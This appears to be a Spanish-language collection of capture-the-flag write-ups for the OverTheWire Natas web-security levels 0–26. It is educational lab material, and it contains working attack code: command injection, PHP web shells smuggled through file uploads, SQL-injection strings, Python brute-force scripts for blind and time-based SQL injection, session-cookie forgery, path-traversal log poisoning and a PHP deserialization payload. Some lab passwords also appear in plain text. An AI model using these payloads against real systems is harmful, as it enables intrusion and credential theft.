# Natas – OverTheWire

Este repositorio contiene la documentacion y soluciones del reto **Natas**, parte de la serie de desafios de seguridad web de **OverTheWire**.




## Informacion

**Natas** es una serie de desafíos diseñada para enseñar los fundamentos de la seguridad web, incluyendo:

* **Inyeccion de codigo**
* **Control de acceso y autenticacion**
* **Exploración de directorios y archivos**
* **Vulnerabilidades comunes en aplicaciones web**

Cada nivel propone un sitio web con una vulnerabilidad específica que debe ser explotada para obtener la contraseña del siguiente nivel.

### Objetivos

* Aprender técnicas de **seguridad web y hacking ético**.
* Comprender cómo funcionan las vulnerabilidades en aplicaciones web.
* Mejorar habilidades de **pensamiento lógico y resolución de problemas** en entornos controlados.

### Herramientas utilizadas

* Navegadores web (Firefox)
* Terminal / cURL / Wget
* Burp Suite (para pruebas de vulnerabilidades)
* Python (scripts de automatización y exploits)

---

## Resolucion

#### Reto 0:

El reto consiste en descubrir la clave de el siguiente reto.
Solo explorando el codigo de la web (Ctrl + u) se puede ver la clave para el siguiente reto.



---

#### Reto 1:

El reto al igual que el anterior consiste en descurbrir la clave de el siguiente reto.
Con la diferencia de que el click derecho esta bloqueado.
Aunque de igual manera el Ctrl + u sige funcionando.

---

#### Reto 2:

El reto no presenta informacion relevante a simple vista.
Dentro de el codigo se puede ver que se intenta acceder a una imagen.



Al acceder a la ruta **files/** se puede observar el archivo de imagen, y un archivo de texto con claves y usuarios.
El cual contiene la clave para el siguiente reto.

'''
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH

'''



---

#### Reto 3:

El reto deja un mensaje en el codigo:

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Probando rutas clasicas se pudo encontrar al archivo robots.txt
El cual muestra la ruta **s3cr3t/** que contiene 



Dentro de este directorio existe un archivo, el cual contiene el acceso al siguiente reto.

---

#### Reto 4:

El reto presenta un mensaje, y un link que reenvia a la misma pagina.



Ya sabiendo que hay que acceder a la pagina de natas5 se puede manipular la peticion (en este caso con burpsuite).
Cambiando el parametro **Referer** a la pagina de natas5.




---

#### Reto 5:

El reto dice que no estamos logeados, para solucionar esto hay que manipular la web desde las herramientas de desarrollador.
Accediendo a ** Developer tools > Storage > Cookies ** y viendo el parametro **loggedin**.
Cambiando el parametro de 0 a 1 y recargando la pagina.



---

#### Reto 6:

El reto presenta una pagina con un input, el cual pide una clave secreta.
Viendo el codigo (usando el boton que nos deja ver el codigo) se puede ver que como llave este intenra buscar un archivo.



Accediendo a este recurso aparece una pagina en blanco.
Explorando el codigo de esta se encuentra la clave secreta, logrando usarla en el input de el inicio, y obteniendo la clave para el siguiente reto.



---

#### Reto 7:

El reto muestra una pagina simple, con dos botones que llevan a otras paginas.
Al usar uno de estos la web dirige a otro archivo html, lo peculiar es la url que usa el parametro **page?=home**.
El codigo de la web deja un comentario utilel cual hace alucion (bastante clara) a leer archivos de el sistema.



Usando el parametro **page?=** se invocara un archivo de el sistema (el que se vio en la pista)



---

#### Reto 8:

El reto presenta un input que solicita una clave secreta.
Explorando el codigo (con el boton que muestra el codigo) se puede ver el mensaje.



Ya que este no es muy legible se uso un script en python para ayudar con esto.

```
import base64

secret = "3d3d516343746d4d6d6c315669563362"
secret = bytes.fromhex(secret)
secret = secret[::-1]
secret = base64.decodebytes(secret)

print(secret)
```

---

#### Reto 9:

Esta web contiene un input, el cual es suceptible a injeccion de comandos.



usando el comando **; cat /etc/natas_webpass/natas10** se puede conseguir la clave para el siguiente reto.

---

#### Reto 10:

El reto es muy parecido al anterior, pero restrinje algunos caractere para dificultar el reto.



Usando el comando ** .* /etc/natas_webpass/natas11 ** se pueden abrir todos los archivos de ese directorio.



---

#### Reto 11:

Este nivel presenta una web que cambia el color de el fondo pasandole el codigo en hexadecimal.


En este desafío, el código parece añadir el color de fondo a nuestra cookie. Además, la cookie contiene el campo "showpassword" establecido en " no" . Si modificamos el valor a "yes" , obtendremos el valor de la contraseña. Sin embargo, no tenemos la clave para la función "xor_encrypt()" .

Afortunadamente, como el algoritmo utilizado es XOR y conocemos los valores de texto plano y cifrado de la cookie, podemos recuperar la clave.
Esto se debe a que ciphertext XOR plaintext = keyse denomina ataque de texto plano conocido. Escribamos un script rápido de Python para obtener la clave secreta Y codificar la nueva cookie en **si** como valor de showpassword.

```
import base64
import json

# === 1. Pega aquí el cookie original (base64) ===
original_cookie = "PEGA_AQUI_EL_COOKIE"

# === 2. JSON original conocido ===
known_plaintext = '{"showpassword":"no","bgcolor":"#ffffff"}'

# Decode base64
cipher = base64.b64decode(original_cookie)

# === 3. Obtener keystream completo ===
keystream = bytes([cipher[i] ^ known_plaintext.encode()[i] for i in range(len(known_plaintext))])

print("[+] Keystream completo:")
print(keystream)

# === 4. Detectar clave mínima repetida ===
def find_repeating_key(stream):
    for key_len in range(1, len(stream)):
        key_candidate = stream[:key_len]
        repeated = (key_candidate * (len(stream) // key_len + 1))[:len(stream)]
        if repeated == stream:
            return key_candidate
    return stream

key = find_repeating_key(keystream)

print("\n[+] Clave detectada:")
print(key)

# === 5. Crear nuevo JSON con showpassword = yes ===
new_plaintext = '{"showpassword":"yes","bgcolor":"#ffffff"}'

# === 6. Cifrar con XOR ===
new_cipher = bytes([
    new_plaintext.encode()[i] ^ key[i % len(key)]
    for i in range(len(new_plaintext))
])

# === 7. Base64 ===
new_cookie = base64.b64encode(new_cipher).decode()

print("\n[+] Nuevo cookie:")
print(new_cookie)
```

Observando la cookie de el sistema (en Dev tools > storage > cookie ) se puede ver que es:
HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GdmFeVnZkTRg%3D

> Nota
> el parametro %3D se modifica a un = al codificarse en url, asi que hay que colocarlo asi.

Ya con la nueva cookie solo queda modificarlo en la peticion para obtener la clave de el siguiente desafio.



---

#### Reto 12:

El reto consiste en una web que permite subir un archivo, como en retos anteriores se supone que la clave estara en un archivo.



Para esto se necesita crear un archivo que nos sirva para ejecutar codigo.
Ya que la web solo admite archivos de imagen (jpg) en el sistema, asi que habra que manipular la peticion de nuestro archivo.

```
<?php
echo system("cat /etc/natas_webpass/natas13");
?>
```

Usando burpsuite se puedo modificar la peticion, teniendo en cuenta los parametros **filename**, **content-Type** y en general cambiar todo lo que diga jpg por php.



Ya enviando esta peticion se puede ver que el servidor lo acepto correctamente.
Accediendo a nuestro documento y viendo la clave de el proximo reto.





---

#### Reto 13:

El reto presenta las mismas bases que el anterior, aunque revisando mas el contenido de el archivo.



Para correjirlo hay que modificar el archivo que se subira.

```
BMP<? 
echo system("cat /etc/natas_webpass/natas14"); 
?>
```

> Nota
> Al igual que el anterior reto hay que modificar la peticion para que el servidor lo interpretara como php, sin alterar las alarmas



---

#### Reto 14:

Este reto presenta un formulario de inicio de sesion, siendo el clasico login de usuario.
Usando una injeccion clasica se puede resolver el desafio, obteniendo la clave de el siguiente reto.

```
" or 1=1 -- -
```


---

#### Reto 15:

Este reto al igual que el anterior esta conectado con una base de datos, usando una injeccion simple se puede corroborar que es vulnerable.

```
" OR 1=1 #
```

Usando el nombre **natas16** descubriendo que el usuario existe.
Para descubrir la clave habra que usar una injeccion basica, esta injeccion hara un ataque de fuerza bruta a la base de datos, ya que cada vez que encuentra una letra que pertenece a la clave la web muestra el mensaje ** This user exist**, y de lo contrario muestra **This user doesn't exist** en la web.

```
natas16" AND password LIKE BINARY "h%" #
```

Se usara un programa en python para realizar el ataque de fuerza bruta, logrando que caracter tras caracter se descubra la clave.

```
import requests
import re

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas15"
password = <password>

url = "http://natas15.natas.labs.overthewire.org"

session = requests.Session()

current_password = list()

while(True):
 for character in characters:
     print("Trying with: " + "".join(current_password) + character)
     response = session.post(url, data={"username": 'natas16" AND password LIKE BINARY "' + "".join(current_password) + character + '%" #'},auth=(username, password))
     if "This user exists." in response.text:
      current_password.append(character)
      break
 if len(current_password) == 32:
  break
```

---

#### Reto 16:

Este reto presenta un campo de busqueda que lista los archivos en base a la letra que se inserta en el input.



Dentro de el codigo al que se nos deja acceder se puede ver que la web usa grep para listar los archivos, para esto se usara un exploit.

```
import requests
from requests.auth import HTTPBasicAuth

username = 'natas16'
password = <password>

characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

out = ""
for i in range(0, 32):
    for j in characters:
        command = f"^$(grep -o ^{out+j} /etc/natas_webpass/natas17)A"
        payload = {'needle': command, 'submit': 'search'}
        result = requests.get('http://natas16.natas.labs.overthewire.org/', auth=HTTPBasicAuth(username, password), params=payload)
        str1 = result.text
        # print(str1)
        start = str1.find('<pre>\n') + len('<pre>\n')
        end = str1.find('</pre>')
        str2 = [x for x in str1[start:end].split('\n')]
        if str2[0] != "African":
            out += j
            print(out)
            break
print(out)
```

El exploit empieza a enviar una letra al azar en el campo de busqueda, ejemplo: $(grep -E ^x.* /etc/natas_webpass/natas17)
Probando cada letra se descubre con fuerza bruta todos los caracteres de la clave.

---

#### Reto 17:

Otro reto de injeccion sql Blind, en este caso el indicador es el tiempo (lo que comprendi por las malas).



la version **Blind** de sql injeccion tiene la caracteristica especial de no saber que esta funcionando y que no, al menos a simple vista, asi que usando el tiempo como indicador de verdadero o falso este exploit permite descubrir con fuerza bruta la clave para el siguiente reto.

```
import requests
import sys
from string import digits, ascii_lowercase, ascii_uppercase

charset = ascii_lowercase + ascii_uppercase + digits
sqli_1 = 'natas18" AND password LIKE BINARY "'
sqli_2 = '" AND SLEEP(5)-- '

s = requests.Session()
s.auth = ('natas17', <password>)

password = <password>
# We assume that the password is 32 chars 
while len(password) < 32:
    for char in charset:
        try:
            payload = {'username':sqli_1 + password + char + "%" + sqli_2}
            r = s.post('http://natas17.natas.labs.overthewire.org/', data=payload, timeout=1)
        except requests.Timeout:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break
```

---

#### Reto 18:

El reto muestra un panel de login simple, lo interesante de reto es conseguir las credenciales de el usuario natas19.



Analizando la peticion con curl se pueden ver cosas interesantes, como que el **PHPSESSID** tiene un valor defionido, el cual podemos cambiar.



usando un exploit en python se puede probar a cambiar el PHPSESSID, obteniendo asi validacion como el usuario natas19 y consiguiendo las credenciales.



```
import requests

url = "http://natas18.natas.labs.overthewire.org"
url2 = "http://natas18.natas.labs.overthewire.org/index.php"

s = requests.Session()
s.auth = ('natas18', <password>)
r = s.get(url)

for x in range(640):
    cookies = dict(PHPSESSID=str(x))
    r = s.get(url2, cookies=cookies)
    if "Login as an admin to retrieve" in r.text:
        pass
    else:
        print(r.text)
        break
```

---

#### Reto 19:

El reto es similar al anterior, Habra que manipular el **PHPSESSID** para suplantar la session de otro usuario.



Observando la peticion con burpsuite se puede ver que el **PHPSESSID** tiene un valor dentro de la cookie.



Decodifiacndo el codigo dentro de el **PHPSESSID** se puede ver un mensaje, viendo que admin tiene una especie de valor por delante.
Decodificando esto en ASCII se puede ver la info de este.



Para vulnerar esta web se debe hacer fuerza bruta, haciendo peticiones diferentes con diferentes **PHPSESSID** hacia la web.
Haciendo que el exploit modifique la peticion con diferentes parametros, logrando en uno de estos obtener el correcto.

```
import requests
import binascii

url = "http://natas19.natas.labs.overthewire.org"

s = requests.Session()
s.auth = ('natas19', <password>)

for x in range(1000):
    tmp = str(x) + "-admin"
    val = binascii.hexlify(tmp.encode('utf-8'))

    cookies = dict(PHPSESSID=val.decode('ascii'))
    r = s.get(url, cookies=cookies)
    if "Login as an admin to retrieve" in r.text:
        pass
    else:
        print(r.text)
        break
```

---

#### Reto 20:



El reto presenta codigo php que podemos visualizar para ayudar con el desafio.
Dentro de este codigo se ve una especie de funcion de debug.

Agregando un nombre no parece pasar nada, pero si se agrega el **?debug** a la url si ocurre algo interesante, obteniendo informacion de depuracion.



Observando el codigo del desafio se puede ver que hay un factor vulnerable, se puede ver que se puede injectar nuestro nombre de usuario, seguido de un caracter de nueva linea.



---

#### Reto 21:

El reto tambien consiste en alterar una cookie, manipulando los privilegios en base a los datos de esta.
la web basica presenta una pagina simple, lo interesante es a la pagina que redirige en un enlace.



La segunda pagina muestra un programa que permite cambiar de color un item.



Habra que manipular las peticiones hacia la web usando burpsuite.

> Nota
> Tomando en cuenta el parametro **?debug** luego de **/index.php** en la peticion

Hay que interceptar la peticion con burpsuite(http://natas21.natas.labs.overthewire.org), es importante eliminar el parametro cookie por completo para que se nos proporcione una cookie.



Lo siguiente es capturar una peticion al usar el boton para cambiar de color en la web(http://natas21-experimenter.natas.labs.overthewire.org/), en la peticion se agregan datos adicionales, al final de estos se puede agregar el **&admin=1** a la peticion.
Importante cambiar la cookie por la que se habia conseguido anteriormente.



Volviendo a la pagina principal (http://natas21.natas.labs.overthewire.org) se puede modificar el parametro **PHPSESSID** de la cookie, usando el parametro que habiamos conseguido anteriormente.
Para evitar fallos se puede modificar la cookie, dejando solo el parametro PHPSESSID, asi se evitan problemas para resolver el desafio.



---

#### Reto 22:

El reto presenta algo raro, presenta una pagina en blanco, algo muy diferente ante los demas retos, aunque la solucion debe estar en el codigo de el desafio.



El codigo muestra como funciona el desafio, lo interesante es el parametro **revelio**, una referencia a harry potter...creo.



Usando burpsuite se logro modificar una peticion y usar el **?revelio=hi** en el GET, logrando recivir la clave de el siguiente reto.



---

#### Reto 23:

El reto presenta un panel que solicita una clave, algo basico.



El codigo presenta un parametro passwd, el cual solicita el parametro iloveyou con un valor mayor a 10.



Para obtener los datos de el siguiente reto se puede agregar este parametro a la url

```
?passwd=12iloveyou
```

---

#### Reto 24:

El reto es casi igual al anterior, aunque con una lijera diferencia en el backend.





Si, en cambio, enviamos esta solicitud con passwd como un array (añadiendo []), passwd será igual a NULL, que es igual a 0. Esto superara la comparacion de strcmp():
Agregando esto a la url se pueden obtener los datos de el siguiente reto.

```
?passwd[]=test
```

---

#### Reto 25:

El reto mustra una pagina con un largo mensaje, aunque lo interesante es un boton que hace alucion a cambiar el idioma.
En la url se presenta el parametro **lang=** al presionar el boton.


Esto es un Path traversal, asi que usando el parametro **lang** se puede usa algun tipo de injeccion (....//....//....//....//....//etc/passwd).


Interceptando la peticion con burpsuite se puede resolver todo, en el codigo muestra que el archivo que buscamos ya tiene una ruta y nombre predefinidas, aunque usa una especie de token como identificador.
El supuesto identificador es solo el PHPSESSID, complementando este en la cabecera de la peticion, e injectando codigo en el **User agent** se puede ver el contenido de este archivo.

```
<?php echo shell_exec("cat /etc/natas_webpass/natas26"); ?>
```



---

#### Reto 26:

cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE

Este nivel presenta una aplicacion sencilla de dibujo de lineas. Al enviar las coordenadas que definen una linea, esta se dibuja en un rectangulo negro. 
Centrandonos en el codigo vemos la funcion de este programa, logrando ver algo interesante respecto al manejo de archivos.



Este fragmento de codigo muestra algo interesante, que existe una carpeta **/img/** en donde se pueden leer recursos.



Explorando una peticion web con burpsuite (obviamente luego de usar el programa de la web) se puede ver que la cookie tiene una seccion de **drawing**, la cual sera el vector de ataque.
Usando un exploit en python podemos crear una instruccion, una que recurra al archivo **/etc/natas_webpass/natas27** (archivo que contiene nuestra clave, al igual que las de varios retos) y dejar ese output en un archivo dentro de **/img/**.

```
<?php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){

        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="<?php include_once('/etc/natas_webpass/natas27');?>";
        $this->logFile="img/output.php";
    }
}

$output[]=new Logger();
echo base64_encode(serialize($output));
?>
```

Luego de ejecutar ek script con php se logra obtener la informacion necesaria, ya con la peticion en burpsuite hay que reemplazar el contenido de **drawing** por el resultado de nuestro programa.

> Nota
> Aveces burpsuite presenta unos **%3D**
> estos deben ser eliminados, aunque se interpreten con **=** deben ser eliminados, obviamente sin afectar el payload.

Luego de completar la peticion hay que ir al navegador, y acceder a /img/output.php para descubrir la clave de el siguiente reto.



---
